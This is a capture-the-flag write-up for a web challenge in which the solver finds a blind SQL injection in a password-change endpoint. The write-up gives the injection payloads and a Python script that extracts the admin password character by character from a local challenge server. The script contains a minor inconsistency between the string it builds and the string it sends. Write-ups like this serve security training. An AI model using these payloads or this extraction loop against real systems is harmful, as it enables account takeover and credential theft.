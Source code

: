 # Logical

Author: `Mr. Blade`

## Description

The administrator changed their password, and we lost access to their account. We need to regain access to continue our operations.

## Dev notes

<b>No Source code for this challenge</b>

Start: `make run`

Stop: `make stop`

## Solution
So the page mentions database so likely an SQL challenge of some sort. Looking at main.js it is making POSTS to an endpoint /api/chpass with a username, and the server responds with whether or not it exists.

First let's see how we can get sql injection. Tried a bunch of things, got several 500s, but eventually the following payload got me a 200:
```
admin' or ''%3D'
```
The %3D is an html encoded equals sign, since forms don't like having equals signs in them
And the idea is that the query looks like:
```
SELECT * FROM table WHERE username='{username}'
```

so our payload effectively does
```
SELECT * FROM table WHERE username='admin' or ''=''
```


So from there since we have a boolean response of exists or not exists, and I'm assuming the flag is in pthe password we can do something like:
```
admin' and password like 'g%
```

and this will inject as
```
SELECT * FROM table WHERE username='admin' AND password LIKE 'g%'
```
the % symbol is a wildcard for zero or more characters, so this checks if the password starts with a g or not and we can guess the password one letter at a time using the server's response

Note: be careful with wildcards, as they may mess up your results with false positives if not escaped properly, and I spent quite a bit of time fiddling with the charset because because of it

Solve in `solve.py` and below.
``` py
import requests
from string import ascii_letters, digits
charset = ascii_letters + digits + '!@#$^&*(){}-_'
pw = 'gigem{'
while pw[-1] != '}':
    for c in charset:
        inject = f"admin' and password like '{pw}"
        if c not in '%_[]^-':
            inject += f"{c}%"
        else:
            inject += f"\\{c}% escape '\\'"
        res = requests.post('http://127.0.0.1/api/chpass', data = {"username":f"admin' and password like '{pw}{c}%"})
        if 'not exists' not in res.text:
            pw += c
            print(pw)
            break
```

flag: `gigem{bl1nd-1nj3ct10n}`
